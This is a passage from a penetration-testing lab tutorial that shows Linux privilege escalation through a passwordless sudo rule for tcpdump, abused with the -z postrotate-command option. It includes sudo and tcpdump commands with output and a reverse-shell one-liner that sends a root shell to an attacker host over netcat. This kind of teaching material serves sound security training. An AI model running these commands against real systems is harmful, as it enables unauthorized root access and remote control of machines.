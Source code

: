 ```shell
htb_student@NIX02:~$ sudo -l

Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump

```

It is easy to misconfigure this. For example, a user may be granted root-level permissions without requiring a password. Or the permitted command line might be specified too loosely, allowing us to run a program in an unintended way, resulting is privilege escalation. For example, if the sudoers file is edited to grant a user the right to run a command such as `tcpdump` per the following entry in the sudoers file: `(ALL) NOPASSWD: /usr/sbin/tcpdump` an attacker could leverage this to take advantage of a the **postrotate-command** option.

```shell
htb_student@NIX02:~$ man tcpdump

<SNIP>
-z postrorate-command

Used in conjunction with the -C or -G options, this will make `tcpdump` run " postrotate-command file " where the file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip2 will compress each savefile using gzip or bzip2.

```

By specifying the `-z` flag, an attacker could use `tcpdump` to execute a shell script, gain a reverse shell as the root user or run other privileged commands. For example, an attacker could create the shell script `.test` containing a reverse shell and execute it as follows:

```shell
htb_student@NIX02:~$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

```

Let's try this out. First, make a file to execute with the `postrotate-command`, adding a simple reverse shell one-liner.

```shell
htb_student@NIX02:~$ cat /tmp/.test

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f

```

Next, start a `netcat` listener on our attacking box run `tcpdump` as root with the `postrotate-command`. If all goes to plan, we will receive a root reverse shell connection.

```shell
htb_student@NIX02:~$ sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

dropped privs to root
tcpdump: listening on ens192, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
6 packets received by filter
compress_savefile: execlp(/tmp/.test, /dev/null) failed: Permission denied
0 packets dropped by kernel

```
